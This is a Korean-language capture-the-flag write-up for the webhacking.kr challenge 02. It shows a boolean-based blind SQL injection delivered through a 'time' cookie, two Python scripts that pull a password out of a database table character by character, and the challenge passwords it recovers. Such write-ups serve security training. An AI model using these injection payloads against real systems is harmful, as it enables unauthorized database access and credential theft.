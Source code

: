 ================================================================================================================
[webhacking.kr] 02
================================================================================================================

Flow Chart
================================================================================================================

.. uml::
	
	@startuml

	start

	:Source analysis;

	:True/False check;

	:Blind SQL Injection;

	stop

	@enduml

|

Source analysis
================================================================================================================

해당 html 소스 내에 주석 처리된 부분에 time이 출력되는 것을 볼 수 있는데, 쿠키 값에 time이 설정되어 있는 것으로 보아 해당 쿠키 값이 페이지 상에 출력되는 것으로 추측됩니다.

.. code-block:: html

    <html>
    <head>
    <title>Project Progress</title>
    </head>
    <body bgcolor=black>
    <center>
    <table width=970 bgcolor=white>
    <td colspan=5>
    <img src="img/new_main.jpg" alt="" usemap="#main.jpg" style="border: 0;" />
    <map name="main.jpg">
        <area shape="rect" coords="15,8,517,54" href="index.php" target="" alt="" />
        <area shape="rect" coords="339,63,403,93" href="about.php" target="" alt="" />
        <area shape="rect" coords="413,63,490,92" href="member.php" target="" alt="" />
        <area shape="rect" coords="500,63,582,92" href="research.php" target="" alt="" />
        <area shape="rect" coords="592,63,651,92" href="bbs/index.php" target="" alt="" />
        <area shape="rect" coords="662,64,745,93" href="fun.php" target="" alt="" />
        <area shape="rect" coords="756,63,825,93" href="contact.php" target="" alt="" />
        <area shape="rect" coords="851,7,890,65" href="admin/" target="" alt="" />

    </map>
    <br><center><br>
    </td><tr>
    </table>

    <table bgcolor=white width=976>
    <td width=88></td>
    <td width=800>
    <br>
    <center>
    <a href=index.php><img src=img/new.jpg border=0></a><br>
    <br><br>
    <!--2015-11-24 10:12:18--></td>
    <td width=88></td>
    </table>

    <table width=970 bgcolor=black>
    <td><br><center><font size=2 color=white>Copyright ¨Ï 2008 beistlab. All rights reserved</td>
    </table>

|

True/False check
================================================================================================================

Cookie 값 입력을 통해 True/False 여부를 확인한다.

.. code-block:: console

    cookie = '1 and 1=1'  // True: <!--2070-01-01 09:00:01-->
    cookie = '1 and 1=2'  // False: <!--2070-01-01 09:00:00-->

|

Blind SQL Injection
================================================================================================================

테이블 명과 컬럼 명은 유추를 통해 확인할 수 있다.

- 테이블 명 : FreeB0aRd
- 컬럼명 : password

다음 쿼리문을 입력해서 password 길이를 확인한다. 

- password 길이 : 9

.. code-block:: python

    import requests

    cookie = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
        "time":"1 and (select if(length(password)>8,1,0) from FreeB0aRd)"
    }
    url = "http://webhacking.kr/challenge/web/web-02/index.php"
    r = requests.get(url,cookies=cookie, verify=False)
       
    print r.content.split('<!--')[1].split('-->')[0]


다음 쿼리문을 입력해서 FreeB0aRd password 값을 확인한다.

- FreeB0aRd password : 7598522ae

.. code-block:: python

    import requests

    pw =""
    for i in range(1,10):
        for j in range(33,126):
            #print j
            cookie = {
                "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
                "time":"1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d" % (i,j)
            }

            url = "http://webhacking.kr/challenge/web/web-02/index.php"
            r = requests.get(url,cookies=cookie, verify=False)
            q = r.content.split('<!--')[1].split('-->')[0]
            if "09:00:01" in q:
                pw += chr(j)
                print pw
                break

    print pw


확인된 패스워드를 패스워드가 걸려있는 게시판에 입력한 결과 하나의 다운로드 링크가 존재한다.
페이지에서 파일을 다운 받으면 __AdMiN__FiL2.zip 이라는 압축 파일이 존재하는데 해당 파일이 암호가 걸려있다.

해당 파일에 대한 패스워드는 admin 페이지에 존재하는 것으로 추측되며 admin 페이지 패스워드를 위와 같은 방식으로 찾는다.

- admin password: 0nly_admin

.. code-block:: html
    admin page

    Notice
    -관리자 패스워드가 유출되지 않게 조심하세요.
    -처음 사용하시는 분은 메뉴얼을 참고하세요.(메뉴얼 패스워드 : @dM1n__nnanual)

해당 패스워드로 압축 파일을 해제하면 인증 패스워드를 확인할 수 있다.
